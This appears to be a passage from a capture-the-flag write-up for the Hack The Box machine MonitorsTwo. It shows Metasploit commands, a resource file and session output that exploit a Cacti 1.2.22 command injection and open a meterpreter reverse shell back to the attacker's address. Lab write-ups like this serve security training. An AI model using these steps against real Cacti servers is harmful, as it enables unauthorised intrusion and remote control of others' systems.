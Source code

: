 ```text
msf6 > search cacti

Matching Modules
================

   #  Name                                                    Disclosure Date  Rank       Check  Description
   -  ----                                                    ---------------  ----       -----  -----------
   0  exploit/linux/http/cacti_unauthenticated_cmd_injection  2022-12-05       excellent  Yes    Cacti 1.2.22 unauthenticated command injection
   1  exploit/unix/http/cacti_filter_sqli_rce                 2020-06-17       excellent  Yes    Cacti color filter authenticated SQLi to RCE
   2  exploit/unix/webapp/cacti_graphimage_exec               2005-01-15       excellent  No     Cacti graph_view.php Remote Command Execution
   3  exploit/windows/http/hp_sitescope_runomagentcommand     2013-07-29       manual     Yes    HP SiteScope Remote Code Execution

Interact with a module by name or index. For example info 3, use 3 or use exploit/windows/http/hp_sitescope_runomagentcommand
```

The exploit number 0 seems to match, so let's try it with a meterpreter payload :

```text
msf6 > use 0
[*] Using configured payload linux/x86/meterpreter/reverse_tcp
msf6 exploit(linux/http/cacti_unauthenticated_cmd_injection) >
```

Regarding the required parameters, we can script a simple resource file and ask Metasploit to execute it in a scripted way :

```bash
$ cat <<EOF > monitorstwo.rc
use exploit/linux/http/cacti_unauthenticated_cmd_injection
set payload linux/x86/meterpreter/reverse_tcp
set RHOSTS  10.10.11.211
set RPORT   80
set SRVHOST tun0
set LHOST   tun0
run
EOF
```

Then execute it :

```shell
msfconsole -q -r ./monitorstwo.rc
```

The shell do not pop every time, and the command have to be executed a few times befors having a shell. After some tries (~10) :

```text
[*] Started reverse TCP handler on 10.10.14.17:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The target is Cacti version 1.2.22
[*] Trying to bruteforce an exploitable host_id and local_data_id by trying up to 500 combinations
[*] Enumerating local_data_id values for host_id 1
[+] Found exploitable local_data_id 6 for host_id 1
[*] Sending stage (1017704 bytes) to 10.10.11.211
[*] Command Stager progress - 100.00% done (1118/1118 bytes)
[*] Meterpreter session 1 opened (10.10.14.17:4444 -> 10.10.11.211:34642) at 2023-05-11 23:45:10 +0200

meterpreter > shell
Process 16082 created.
```